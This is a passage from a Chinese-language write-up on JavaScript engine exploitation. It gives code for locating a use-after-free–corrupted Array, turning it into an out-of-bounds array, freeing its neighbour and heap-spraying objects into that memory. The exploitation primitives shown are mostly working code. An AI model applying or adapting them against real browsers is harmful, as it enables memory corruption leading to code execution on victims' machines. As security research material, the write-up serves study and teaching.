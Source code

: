 ```
eval(eval_str);
```

接下来就是搜索哪个被修改过的`Array`对象了

```
//找到那个能够被我们UAF控制的Array
var corrupted_array = undefined;
for(var i = 0; i &lt; victim_array.length; i++) `{`
    tmp = victim_array[i];
    if (tmp[0] !== 2.2) `{`
        console.log("[+] array at : " + i);
        corrupted_array = victim_array[i];
        break;
    `}`
`}`
```

同时，我们得继续寻找该`Array`对象`Elements`后方的`Elements`属于哪个`Array`，其中注意到，由于`corrupted_array`的elements的length被我们修改成了0xFFFFFFFF，因此在这里加大length，elements仍然不变，相当于构造了一个oob数组，这个特性也是新学到的。

```
//寻找corrupted_array的后面是哪个Array对象的elements
var next_array_idx = undefined;
var tag = p64f(0x12345678,0x78563412)
if (corrupted_array != undefined) `{`
    //由于elements的length被我们修改，因此在这里加大length，elements仍然不变，相当于构造了一个oob数组
    corrupted_array.length = 0x200000;
    let leaked_idx = undefined;
    if (corrupted_array[0x20000] == 2.2) `{`
        corrupted_array[0x20000] = tag; //设置一个标记
        //搜索标记
        for(let i = 0; i &lt; victim_array.length; i++) `{`
            tmp = victim_array[i];
            if (tmp[0] == tag) `{`
                tmp = undefined;
                console.log("[+] next array at : " + i);
                next_array_idx = i;
                break;
            `}`
        `}`
    `}`
`}` else `{`
    console.log("[-] fail");
`}`
```

我们搜索`next_array`的目的是为了将`next_array`进行释放。这样方便我们进行第二轮`Heap Spray`，将其他对象布局到此处，然后用`corrupted_array`进行控制。

```
function gc() `{`
   for (let i = 0; i &lt; 0x10; i++) `{`
      new ArrayBuffer(0x1000000);
   `}`
`}`
//corrupted_array后方的内存释放掉，然后我们将其他对象堆喷到此处
victim_array[next_array_idx] = null;
gc();
//堆喷
var obj = `{``}`;
array = [obj];
array.length = 0x2000;
array.fill(obj);

for(var i = 0;i &lt; victim_array.length;i++)`{`
   victim_array[i] = array.slice(0,array.length);
```
